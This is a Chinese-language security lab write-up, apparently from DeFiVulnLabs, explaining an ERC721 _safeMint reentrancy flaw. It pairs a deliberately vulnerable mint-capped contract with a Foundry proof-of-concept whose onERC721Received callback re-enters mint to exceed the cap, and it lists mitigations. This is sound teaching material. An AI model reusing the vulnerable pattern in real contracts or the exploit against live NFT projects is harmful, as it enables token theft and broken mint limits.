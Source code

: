 # 不受保护的回调——ERC721 SafeMint重入  
[Unprotected-callback.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Unprotected-callback.sol)  
**名称：** 不受保护的回调——ERC721 SafeMint可重入漏洞  
**描述：**  
合约ContractTest正在利用回调功能绕过由MaxMint721合约设置的最大铸造限制。这是通过触发onERC721Received函数来实现的，该函数在内部再次调用mint函数。  
因此，尽管MaxMint721试图将用户可以铸造的代币数量限制为MAX_PER_USER，但ContractTest合约成功铸造了超过这个限制的代币。  


**场景：**  
本练习涉及通过回调函数来铸造更多的非同质化代币(NFT)。


**缓解措施：**  
遵循“检查-效果-交互”原则，并使用OpenZeppelin重入防护机制。  

**参考：**  
https://blocksecteam.medium.com/when-safemint-becomes-unsafe-lessons-from-the-hypebears-security-incident-2965209bda2a  
https://www.paradigm.xyz/2021/08/the-dangers-of-surprising-code  


**MaxMint721合约：**  
```
contract MaxMint721 is ERC721Enumerable {
    uint256 public MAX_PER_USER = 10;

    constructor() ERC721("ERC721", "ERC721") {}

    function mint(uint256 amount) external {
        require(
            balanceOf(msg.sender) + amount <= MAX_PER_USER,
            "exceed max per user"
        );
        for (uint256 i = 0; i < amount; i++) {
            uint256 mintIndex = totalSupply();
            _safeMint(msg.sender, mintIndex);
        }
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Unprotected-callback.sol** -vvvv
```
// 测试铸造新代币的公共函数
function testSafeMint() public {
    // 创建MaxMint721合约的新实例。
    MaxMint721Contract = new MaxMint721();
        
    // 尝试铸造最大数量的新代币。 
    // 根据正常实现，这应该铸造maxMints数量的新代币。
    MaxMint721Contract.mint(maxMints);
        
    // 控制台日志表明发生了一个漏洞，允许铸造19个NFT。
    console.log("Bypassed maxMints, we got 19 NFTs");
        
    // 该代码判断确实已经铸造了19个NFT。
    assertEq(MaxMint721Contract.balanceOf(address(this)), 19);
        
    // 输出由该合约铸造的NFT数量
    console.log("NFT minted:", MaxMint721Contract.balanceOf(address(this)));
}

// 此函数是一个标准的ERC721Receiver接口的实现，允许该合约从其他合约接收ERC721代币。
// 在此案例中，它用于执行铸造漏洞。
function onERC721Received(
    address,
    address,
    uint256,
    bytes memory
) public returns (bytes4) {
        
    // 检查这是否是第一次调用函数
    if (!complete) {
        // 将函数标记为调用
        complete = true;
            
        // 新代币数量为(maxMints - 1)  
        MaxMint721Contract.mint(maxMints - 1);
            
        // 记录请求铸造的代币数量
        console.log("Called with :", maxMints - 1);
    }
        
    // 这是成功接收ERC721代币的标准返回值
    return this.onERC721Received.selector;
}
```  
**红框：**成功绕过maxMint限制   
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F86e9ee9c-86cb-4ef2-9c5a-cf8774cacda8%2FUntitled.png?table=block&id=a2eb9107-aa44-4bc6-a6b6-0c1a0f284393&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
